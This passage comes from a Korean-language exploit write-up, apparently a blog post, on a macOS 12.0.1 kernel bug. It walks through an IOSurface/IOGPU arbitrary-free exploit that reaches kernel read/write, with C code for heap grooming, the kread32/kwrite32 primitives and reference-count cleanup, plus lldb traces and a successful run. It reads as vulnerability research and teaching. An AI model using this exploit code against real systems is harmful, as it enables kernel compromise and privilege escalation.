int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
...
    // NULL out array
    IOSurfaceRoot_release_all(iosurface_connect_krw);

    // find allocation at KHEAP_DEFAULT_MAPPABLE_LOC
    int kheap_default_idx = -1;
    for (uint32_t i = 0;
         (i < PORTS_COUNT) && port_has_msg(notif_port);
         i++)
    {
        port_receive_msg(notif_port, msg_buf, sizeof(msg_buf));
       
        port_destroy(kheap_default_ports[i]);   //will trigger zone_require_panic if you don't IOSurfaceRoot_release_surface(iosurface_connect_krw, last_id); or IOSurfaceRoot_release_all(iosurface_connect_krw);

        kheap_default_idx = i;
    }
...
}
```

```c
(lldb) bt
* thread #1, name = 'CPU0', stop reason = breakpoint 1.1
  * frame #0: 0xfffffe000c87eea4 kernel.release.vmapple`panic(str="zone_require failed: address in unexpected zone id %d (%s%s) (addr: %p, expected: %s%s) @%s:%d") at debug.c:872:2 [opt]
    frame #1: 0xfffffe000c883378 kernel.release.vmapple`zone_require_panic(zone=0xfffffe000e67da38, addr=0xfffffe1515347e80) at zalloc.c:1366:3 [opt]
    frame #2: 0xfffffe000c883398 kernel.release.vmapple`zone_id_require_panic(zid=<unavailable>, addr=<unavailable>) at zalloc.c:1377:2 [opt]
    frame #3: 0xfffffe000c0fdd38 kernel.release.vmapple`zone_id_require(zid=<unavailable>, esize=<unavailable>, addr=<unavailable>) at zalloc.c:1419:2 [opt]
    frame #4: 0xfffffe000c07ba68 kernel.release.vmapple`ipc_object_validate(object=0xfffffe1515347e80) at ipc_object.c:0 [opt] [inlined]
    frame #5: 0xfffffe000c07ba3c kernel.release.vmapple`ipc_object_lock(io=0xfffffe1515347e80) at ipc_object.c:1339:2 [opt]
    frame #6: 0xfffffe000c07c2ac kernel.release.vmapple`ipc_port_release_send(port=0xfffffe1515347e80) at ipc_port.c:2863:3 [opt] [inlined]
    frame #7: 0xfffffe000c07c2a4 kernel.release.vmapple`ipc_object_destroy(object=0xfffffe1515347e80, msgt_name=<unavailable>) at ipc_object.c:832:3 [opt]
    frame #8: 0xfffffe000c0740c0 kernel.release.vmapple`ipc_kmsg_clean_body(kmsg=<unavailable>, number=1, saddr=0xfffffe1514aca584) at ipc_kmsg.c:1753:5 [opt]
    frame #9: 0xfffffe000c073f68 kernel.release.vmapple`ipc_kmsg_clean(kmsg=0xfffffe1514aca500) at ipc_kmsg.c:1873:3 [opt]
    frame #10: 0xfffffe000c073e38 kernel.release.vmapple`ipc_kmsg_reap_delayed at ipc_kmsg.c:1671:3 [opt]
    frame #11: 0xfffffe000c07e210 kernel.release.vmapple`ipc_port_destroy(port=0xfffffe1514acf520) at ipc_port.c:1148:3 [opt]
    frame #12: 0xfffffe000c082d54 kernel.release.vmapple`ipc_right_destroy(space=<unavailable>, name=3780099, entry=<unavailable>, check_guard=<unavailable>, guard=<unavailable>) at ipc_right.c:1047:4 [opt]
    frame #13: 0xfffffe000c08cec8 kernel.release.vmapple`mach_port_destroy(space=0xfffffe150db43a00, name=3780099) at mach_port.c:768:7 [opt]
    frame #14: 0xfffffe000c10c990 kernel.release.vmapple`_Xmach_port_destroy(InHeadP=0xfffffe1514ac898c, OutHeadP=0xfffffe1514ac918c) at mach_port_server.c:812:18 [opt]
    frame #15: 0xfffffe000c09d220 kernel.release.vmapple`ipc_kobject_server_internal(port=<unavailable>, request=0xfffffe1514ac8900, replyp=0xfffffe601e62bc30) at ipc_kobject.c:472:3 [opt]
    frame #16: 0xfffffe000c09cd74 kernel.release.vmapple`ipc_kobject_server(port=<unavailable>, request=0xfffffe1514ac8900, option=<unavailable>) at ipc_kobject.c:580:8 [opt]
    frame #17: 0xfffffe000c0748e8 kernel.release.vmapple`ipc_kmsg_send(kmsg=0xfffffe1514ac8900, option=3, send_timeout=0) at ipc_kmsg.c:2202:10 [opt]
    frame #18: 0xfffffe000c08c2c8 kernel.release.vmapple`mach_msg_overwrite_trap(args=<unavailable>) at mach_msg.c:371:8 [opt]
    frame #19: 0xfffffe000c1b9b2c kernel.release.vmapple`mach_syscall(state=0xfffffe150ff02120) at bsd_arm64.c:276:11 [opt]
    frame #20: 0xfffffe000c1c2e78 kernel.release.vmapple`handle_svc(state=0xfffffe150ff02120) at sleh.c:2411:3 [opt] [inlined]
    frame #21: 0xfffffe000c1c2e0c kernel.release.vmapple`sleh_synchronous(context=0xfffffe150ff02120, esr=<unavailable>, far=4368957440) at sleh.c:743:3 [opt]
    frame #22: 0xfffffe000c05479c kernel.release.vmapple`fleh_synchronous + 40
    frame #23: 0x0000000184ff9954
    frame #24: 0x0000000185016250	//_mach_port_destroy ...
    frame #25: 0x0000000100eee710	//_port_destroy+0x24
    frame #26: 0x0000000100eecff4	//_exploitation_get_krw_with_arb_free+0x1c0
    frame #27: 0x0000000100eed2e4	//_exploit_get_krw_and_kernel_base+0x40
    frame #28: 0x0000000100eed418	//_main+0x50
    frame #29: 0x00000001012650f4
```

이전에 실펴봤던  `ipc_kmsg_clean_body`에 있는 `ipc_object_destroy(object, dsc->disposition);` 코드에 의해 파괴될거라고 했었는데, 
해당 루프문은 `kheap_default_ports` 배열들 중 어느 포트가 `notif_port`이 파괴된건지 확인하는 작업이다.

이 작업을 통해 KHEAP_DEFAULT_MAPPABLE_LOC 주소로 할당된 곳이 어느 포트에 해당되는지 구분할 수 있으며, 해당되는 포트가 `port_destroy` 되면서`KHEAP_DEFAULT_MAPPABLE_LOC` 할당되었던 곳이 free된다.

```c
int port_has_msg(mach_port_t p)
{
    mach_msg_header_t msg = { 0 };

    mach_msg(&msg, MACH_RCV_LARGE | MACH_RCV_MSG | MACH_RCV_TIMEOUT, 0, 0x10, p, 0, 0);

    return msg.msgh_size;
}

void port_receive_msg(mach_port_t p, uint8_t *buf, unsigned int n)
{
    mach_msg((mach_msg_header_t *)buf,
              MACH_RCV_MSG | MACH_MSG_TIMEOUT_NONE,
              0,
              n,
              p,
              0,
              0);
}

int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
...
    // find allocation at KHEAP_DEFAULT_MAPPABLE_LOC
    int kheap_default_idx = -1;
    for (uint32_t i = 0;
         (i < PORTS_COUNT) && port_has_msg(notif_port);
         i++)
    {
        port_receive_msg(notif_port, msg_buf, sizeof(msg_buf));
       
        port_destroy(kheap_default_ports[i]);   //will trigger zone_require_panic if you don't IOSurfaceRoot_release_all(iosurface_connect_krw);

        kheap_default_idx = i;
    }
    
    // Note: don't add time sensitive code here, allocation at KHEAP_DEFAULT_MAPPABLE_LOC
    // has been free'd and will be refilled below
    
    // printf("Allocation at KHEAP_DEFAULT_MAPPABLE_LOC has been free'd\n");
    
    if (kheap_default_idx >= PORTS_COUNT)
    {
        printf("kheap_default_idx >= PORTS_COUNT\n");
        exit(1);
    }
...
}
```

## 3-5. IOGPU / IOSurface를 활용하여 커널 r/w 해보기

**IOGPU userclient**도 IOSurface userclient가 IOSurfaceClient 배열을 관리하는 방식과 유사하게, 배열 내 객체들을 관리한다. IOGPU 배열 또한 **가변 크기이며 KHEAP_KEXT에 할당되며,** 특히 IOGPU는 IOGPUCommandQueue 객체를 생성하고 해당 배열에 추가하는 셀렉터를 제공해주는데 이를 활용해 어떻게 Kernel R/W까지 달성할 수 있는지 알아보자.

우선 KHEAP_DEFAULT_MAPPABLE_LOC 주소로 IOGPU 배열을 할당받기 위해 
`kheap_default_ports`를 추가로 더 free시켜준다.

이는 기기 환경마다 `extra_frees_for_device`가 다르며, VMApple의 경우 1이었다.

```c
int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
...
    // extra frees
    for (int i = 0; i < extra_frees_for_device; ++i)
    {
        port_destroy(kheap_default_ports[(kheap_default_idx+1)+i]);
    }
...
}
```

그리고 IOGPUCommandQueue 객체를 생성하기 위해 해당 배열에 추가하는 셀렉터인 IOGPUDeviceUserClient::s_new_command_queue를 호출하기 전에 앞서 
IOGPU_init 부터 먼저 살펴보자..

```c
int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
...
// do refill
    iogpu_connect = IOGPU_init();
    // add entry
    IOGPU_create_command_queue(iogpu_connect, KHEAP_DATA_MAPPABLE_LOC - 0x4000 + 0x10);
    
    printf("kheap_default_idx: %08X\n", kheap_default_idx);
...
}
```

IOGPU_init에서 userclient를 획득하면, 내부적으로 IOGPU::newUserClient가 호출된다.

IOGPU::newUserClient
→ IOGPUDeviceUserClient::start
→ IOGPUDeviceUserClient::deviceUserClientStart
→ IOGPU::createDevice
→ IOGPUDevice::init에서 여러번 IOGPUNamespace::strongNamespace를 호출하는 것을 볼 수 있는데, 여기서 IOMalloc에 의해 커널 페이지 크기만큼 할당하는 모습을 볼 수 있었다.

이전에 `kheap_default_ports`를 1번 더 free했던 주소,
그리고 더 이전에, 포트가 `port_destroy` 되면서`KHEAP_DEFAULT_MAPPABLE_LOC` 할당되었던 곳이 free되었던 주소가 다시 할당되는 모습이 보인다.



IOGPUDeviceUserClient::s_new_command_queue 셀렉터를 호출하면,
입력 구조체에 제공한 문자열은 생성된 IOGPUCommandQueue 객체의 오프셋 +0x10부터 복사된다.

문자열은 널 종결되지만, 내용은 임의로 제어할 수 있으므로 +0x40 위치에 포인터를 정교하게 구성할 수 있다.(널 바이트가 필수는 아님).

AppleParavirtGPU::newCommandQueue(__ZN16AppleParavirtGPU15newCommandQueueEv)에서 IOGPUCommandQueue 객체를 할당 및 생성하며, 
오프셋 +0x10부터 복사기 일어나는 곳은 다음과 같다.

IOGPUDeviceUserClient::s_new_command_queue
→ AppleParavirtCommandQueue::init
→ j____strlcpy_chk_26


```c
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #1, name = 'CPU0', stop reason = breakpoint 1.1
    frame #0: 0xfffffe001951e5a4
->  0xfffffe001951e5a4: bl     0xfffffe0019528d14
    0xfffffe001951e5a8: ldrb   w8, [x22, #0x404]
    0xfffffe001951e5ac: cmp    w8, #0x0
    0xfffffe001951e5b0: cset   w8, ne
Target 0: (kernel.release.vmapple) stopped.
(lldb) reg read x0
      x0 = 0xfffffe151116c790
(lldb) reg read x1
      x1 = 0xfffffe22878d47b4
(lldb) x/12gx 0xfffffe22878d47b4
0xfffffe22878d47b4: 0x0101010101010101 0x0101010101010101
0xfffffe22878d47c4: 0x0101010101010101 0x0101010101010101
0xfffffe22878d47d4: 0x0101010101010101 0x0101010101010101
0xfffffe22878d47e4: 0xfffffe228cffc010 0x0000000000000000
0xfffffe22878d47f4: 0x0000000000000000 0x0000000000000000
0xfffffe22878d4804: 0x0000000000000000 0x0000000000000000
```

그런 다음, IOGPUWeakNamespace::addObjectLocked에서
 KHEAP_DEFAULT_MAPPABLE_LOC+8에 x20 레지스터값(=셀렉터를 호출할 때 입력 구조체에 제공한 문자열과 KHEAP_DATA_MAPPABLE_LOC - 0x4000 + 0x10 주소가 함께 담긴 버퍼 주소)을 쓰는 걸 볼 수 있다.

IOGPUDeviceUserClient::s_new_command_queue
→ IOGPUNamespace::addObject
→ IOGPUWeakNamespace::addObjectLocked



```c
(lldb) b 0xfffffe0011b3bf04
Breakpoint 2: address = 0xfffffe0011b3bf04
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #2, name = 'CPU1', stop reason = breakpoint 2.1
    frame #0: 0xfffffe0011b3bf04
->  0xfffffe0011b3bf04: str    x20, [x10, w0, uxtw #3]
    0xfffffe0011b3bf08: cbz    x20, 0xfffffe0011b3bf18
    0xfffffe0011b3bf0c: ldr    w10, [x19, #0x30]
    0xfffffe0011b3bf10: add    w10, w10, #0x1
    
(lldb) reg read x20 x10 w0
     x20 = 0xfffffe151137b400
     x10 = 0xfffffe2281888000
      w0 = 0x00000001
      
(lldb) x/12gx 0xfffffe151137b400
0xfffffe151137b400: 0x3de07e0012572710 0x0000000100000001
0xfffffe151137b410: 0x0101010101010101 0x0101010101010101
0xfffffe151137b420: 0x0101010101010101 0x0101010101010101
0xfffffe151137b430: 0x0101010101010101 0x0101010101010101
0xfffffe151137b440: 0xfffffe228cffc010 0x0000000000000000
0xfffffe151137b450: 0x0000000000000000 0x0000000000000000
```

이렇게 우리는 m_IOSurfaceClientArrayPointer 할당된 곳을 port_destory로 free시키고,
IOGPUCommandQueue 객체를 생성하고 해당 배열에 추가시킴으로써 m_IOSurfaceClientArrayPointer 데이터를 임의조작할 수 있었다. 

```c
(lldb) x/32gx 0xfffffe2281888000 //KHEAP_DEFAULT_MAPPABLE_LOC, IOSurfaceRootUserClient->m_IOSurfaceClientArrayPointer
0xfffffe2281888000: 0x0000000000000000 **0xfffffe1510b56800**
0xfffffe2281888010: 0x0000000000000000 0x0000000000000000
...
(lldb) x/32gx 0xfffffe1510b56800 (...+0x40 → KHEAP_DATA_MAPPABLE_LOC - 0x4000 + 0x10 = **0xfffff따라서** 
```

우리가 알아야될것은 m_IOSurfaceClientArrayPointer+8에 적힌 주소가 **0xfffffe228cffc010, 
즉 KHEAP_DATA_MAPPABLE_LOC(=0xfffffe228d000000)보다 낮은 위치에 존재한다.**

**그렇기 때문에** kheap_data_idx-1 인덱스에 속한 kheap_data_port를 port_destory해준다.
그러면 0x4000크기의 **0xfffffe228cffc000 할당되었던 곳이 free된다.**

이후, 방금 free되었던 곳에다 다시 할당시키게끔 만들기 위해 KERNEL_RW_SIZE_FAKE_ARRAY-1 크기만큼 pipe write한다. 

```c
#define KERNEL_RW_SIZE_FAKE_ARRAY 0x4000

int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
...    
    // refill in kheap data
    port_destroy(kheap_data_ports[kheap_data_idx-1]);
    write(write_pipe, IOSurfaceClient_array_buf, KERNEL_RW_SIZE_FAKE_ARRAY-1);

    kernel_rw_init(iosurface_connect_krw, 1, read_pipe, write_pipe);
...
}

int kernel_rw_init(io_connect_t uc, uint32_t surf_id, int read_pipe, int write_pipe)
{
    _uc = uc;
    _surf_id = surf_id;
    _read_pipe = read_pipe;
    _write_pipe = write_pipe;
    
    return 0;
}
```

이제 거의 다 끝났다.
이제 IOSurface에서 제공하는 셀럭터를 호출하여 커널 읽기/쓰기를 할 수 있다!

buf + 0x10인 이유는 m_IOSurfaceClientArrayPointer+8에 적힌 주소가 **0xfffffe228cffc010, 
즉 0xfffffe228cffc000 할당페이지의 +0x10으로 위치해있기 때문이다.**

```c
void kwrite32(uint64_t kaddr, uint32_t val)
{
    uint8_t buf[KERNEL_RW_SIZE_FAKE_ARRAY];
    
    read(_read_pipe, buf, KERNEL_RW_SIZE_FAKE_ARRAY-1);
    
    *(uint64_t *)(buf + 0x10 + 0x40) = kaddr+ 0x10; // IOSurfaceClient->IOSurface
    *(uint64_t *)(buf + 0x10 + 0xB0) = 1; // See IOSurface::setCompressedTileDataRegionMemoryUsedOfPlane
    *(uint64_t *)(buf + 0x10 + 0xC0) = kaddr - 0xA0; // Write destination (+0xA0 added)
    
    write(_write_pipe, buf, KERNEL_RW_SIZE_FAKE_ARRAY-1);
    
    IOSurfaceRoot_set_compressed_tile_data_region_memory_used_of_plane(_uc, _surf_id, val);
}

uint32_t kread32(uint64_t kaddr)
{
    uint8_t buf[KERNEL_RW_SIZE_FAKE_ARRAY];
    
    read(_read_pipe, buf, KERNEL_RW_SIZE_FAKE_ARRAY-1);
    
    *(uint64_t *)(buf+ 0x10 + 0x40) = kaddr+ 0x10; // IOSurfaceClient->IOSurface
    *(uint64_t *)(buf+ 0x10 + 0xC0 ) = kaddr - 0x14; // Write destination (+0xA0 added)
    
    write(_write_pipe, buf, KERNEL_RW_SIZE_FAKE_ARRAY-1);
    
    return IOSurfaceRoot_get_surface_use_count(_uc, _surf_id);
}

int exploitation_get_krw_with_arb_free(mach_port_t arb_free_holder, uint64_t *kernel_base)
{
... 
    kwrite32(KHEAP_DEFAULT_MAPPABLE_LOC, 0xFEED);
    uint32_t result = kread32(KHEAP_DEFAULT_MAPPABLE_LOC);
    printf("Test kwrite32 and kread32: %08X (should be 0000FEED)\n", result);
...
}
```

배열 내 **IOSurfaceClient 요소의 +0x40 위치(IOSurface 포인터)를 제어할 수 있기 때문에**, 
충분한 간접 참조 수준(indirection)이 있어 커널 임의 쓰기와 읽기를 수행할 수 있는 것이다.



## 4. exploitation_cleanup

해당 코드는 익스플로잇 프로세스가 끝나고, 커널 패닉을 방지하기 위해 아래 코드가 작성되있었다.
+0x8 오프셋은 각각 IOGPUCommandQueue, IOGPUNamespace 객체의 reference count를 의미한다.

```c
void exploitation_cleanup(void)
{
    uint64_t command_queue_loc = kread64(KHEAP_DEFAULT_MAPPABLE_LOC + 8);
    uint64_t parent_loc = kread64(command_queue_loc + 0x488);
    uint64_t namespace_loc = kread64(parent_loc + 0x88);
    
    // // bump refs
    kwrite32(command_queue_loc + 0x8, 10);
    kwrite32(namespace_loc + 0x8, 10);
    
    IOServiceClose(iogpu_connect);
}
```

만약 해당 코드를 수행하지 않는다면, 아래와 같이 패닉이 발생한다.
IOGPUDeviceUserClient::free
→ IOGPUDevice::free
→ IOGPUNamespace::free

즉 reference count를 10으로 증가시켜, free가 수행되지 않음으로써 패닉이 발생하지 않게 만들 수 있는 것이다.



오프셋에 대한 정보로, 한 가지 알 수 있는 사실은 
IOGPUDevice 객체에서 
IOGPUNamespace 객체를 불러오기 위해 +0x88 오프셋 필드에 접근하는것을 볼 수 있었고, 



두번쨰는 IOGPUCommandQueue 객체에서 
IOGPUDevice 객체를 불러오기 위해 +0x488 오프셋에 필드에 접근하는 것을 볼 수 있었다.

따라서 익스플로잇 코드에서 사용된 parent_loc 변수는 IOGPUDevice 객체에 대한 커널 주소일 것이다.



# 실행 결과

```c
seo@seos-Mac ~ % ./exp
Increase reliability...
Increase reliability...
Increase reliability...
Start (will fail if device has not been rebooted since last run)
iteration 0
kheap_data_idx: 0000175B
IOGPU_create_command_queue kr = 0x0 ((os/kern) successful)
kheap_default_idx: 000011C4
Test kwrite32 and kread32: 0000FEED (should be 0000FEED)
Get kernel base...
Got kernel base: 0xfffffe001cd98000
kread32(_kernel_base) success: FEEDFACF
Done

seo@seos-Mac ~ % sysctl kern.version
kern.version: Darwin Kernel Version 21.1.0: Wed Oct 13 17:33:22 PDT 2021; root:xnu-8019.41.5~1/RELEASE_ARM64_VMAPPLE

seo@seos-Mac ~ % sw_vers
ProductName:    macOS
ProductVersion: 12.0.1
BuildVersion:   21A559
```

# 도와준 고마우신 분

- [@jaakerblom](https://x.com/jaakerblom)
- [@0xMard](https://x.com/0xmard)

# 참고 자료

[https://github.com/potmdehex/slides/blob/main/Zer0Con_2022_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf](https://github.com/potmdehex/slides/blob/main/Zer0Con_2022_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf)

[https://project-zero.issues.chromium.org/issues/42451345](https://project-zero.issues.chromium.org/issues/42451345)